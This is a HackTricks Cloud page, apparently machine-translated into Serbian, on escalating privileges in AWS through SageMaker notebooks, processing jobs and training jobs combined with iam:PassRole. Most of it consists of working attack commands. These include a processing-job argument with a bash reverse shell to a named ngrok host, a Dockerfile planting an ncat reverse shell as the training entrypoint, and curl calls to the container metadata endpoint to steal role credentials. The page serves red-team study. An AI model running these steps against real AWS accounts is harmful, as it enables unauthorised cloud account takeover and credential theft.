 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Počnite sa kreiranjem beležnice sa IAM rolom koja je povezana sa njom:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Odgovor bi trebao sadržati polje `NotebookInstanceArn`, koje će sadržati ARN novokreiranog notebook instance. Zatim možemo koristiti `create-presigned-notebook-instance-url` API da generišemo URL koji možemo koristiti za pristup notebook instance kada bude spreman:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigirajte do URL-a u pretraživaču i kliknite na \`Open JupyterLab\` u gornjem desnom uglu, zatim se pomerite do taba “Launcher” i u sekciji “Other” kliknite na dugme “Terminal”.

Sada je moguće pristupiti metapodacima akreditiva IAM Role.

**Potencijalni uticaj:** Privesc na sagemaker servisnu ulogu koja je navedena.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Ako su Jupyter **notebook-ovi već pokrenuti** na njemu i možete ih nabrojati sa `sagemaker:ListNotebookInstances` (ili ih otkriti na bilo koji drugi način). Možete **generisati URL za njih, pristupiti im i ukrasti akreditive kao što je navedeno u prethodnoj tehnici**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potencijalni uticaj:** Privesc na sagemaker servisnu ulogu koja je povezana.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Napadač sa tim dozvolama može da **natera sagemaker da izvrši processingjob** sa sagemaker ulogom povezanu uz to. Napadač može da naznači definiciju kontejnera koji će biti pokrenut u **AWS upravljanom ECS nalogu**, i **ukrade kredencijale IAM uloge koja je povezana**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potencijalni uticaj:** Privesc na sagemaker servisnu ulogu koja je navedena.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Napadač sa tim dozvolama će moći da kreira trening posao, **pokrećući proizvoljni kontejner** na njemu sa **priključenom ulogom**. Stoga, napadač će moći da ukrade kredencijale te uloge.

{% hint style="warning" %}
Ovaj scenario je teže iskoristiti nego prethodni jer je potrebno generisati Docker sliku koja će direktno slati rev shell ili kredencijale napadaču (ne možete navesti početnu komandu u konfiguraciji trening posla).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potencijalni uticaj:** Privesc na sagemaker servisnu ulogu koja je navedena.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Napadač sa tim dozvolama će (potencijalno) moći da kreira **hyperparameter training job**, **pokreće proizvoljan kontejner** na njemu sa **priključenom ulogom**.\
_Nisam iskoristio zbog nedostatka vremena, ali izgleda slično prethodnim eksploatacijama, slobodno pošaljite PR sa detaljima eksploatacije._

## Reference

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
